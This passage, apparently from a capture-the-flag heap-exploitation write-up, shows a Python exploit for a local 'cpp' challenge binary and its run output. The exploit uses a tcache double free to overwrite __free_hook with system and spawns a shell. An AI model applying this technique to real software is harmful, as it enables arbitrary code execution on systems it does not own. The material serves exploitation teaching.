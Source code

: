 ```

# Allocate chunks to clear out the tcache for the free hook overwrite
for i in xrange(7):
    add("9"*8, "0"*8)


# Execute the double free
remove(5)
remove(5)

# Allocate a chunk (which because of the double free, a duplicate chunk of this exists in the tcache)
# Overwrite the next pointer to the next tcache chunk with the address of free hook
add("15935728", p64(libcBase + libc.symbols["__free_hook"]))

# Print some addresses for diagnostic purposes
print "free hook: " + hex(libcBase + libc.symbols["__free_hook"])
print "free: " + hex(libcBase + 0x3eaf98)

# Allocate a chunk to the free hook, and write the libc address of system to it
add("15935728", p64(libcBase + libc.symbols["system"]))

# Add a chunk with `/bin/sh` to call system("/bin/sh")
target.sendline('1')
target.sendline("guyinatuxedo")
target.sendline("/bin/sh\x00")

target.interactive()
```

When we run it:

```
$ python exploit.py 
[+] Starting local process './cpp': pid 9020
[*] '/Hackery/pod/modules/tcache/plaid19_cpp/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
1. Add
2. Remove
3. View
4. Exit

. . .

 File name too long
sh: 1: 00000000: not found
sh: 1: 00000000: not found
sh: 1: 00000000: not found
sh: 1: 00000000: not found
sh: 1: @d2\xbb�: not found
sh: 1: @d2\xbb�: not found
sh: 1: @d2\xbb�: not found
sh: 1:: not found
$ w
 20:57:55 up  2:49,  1 user,  load average: 0.87, 1.01, 1.33
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               18:38   ?xdm?   7:02   0.01s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
'N'$'\177'   cpp      libc-2.27.so     try.py        ''$'\363\327\177'
```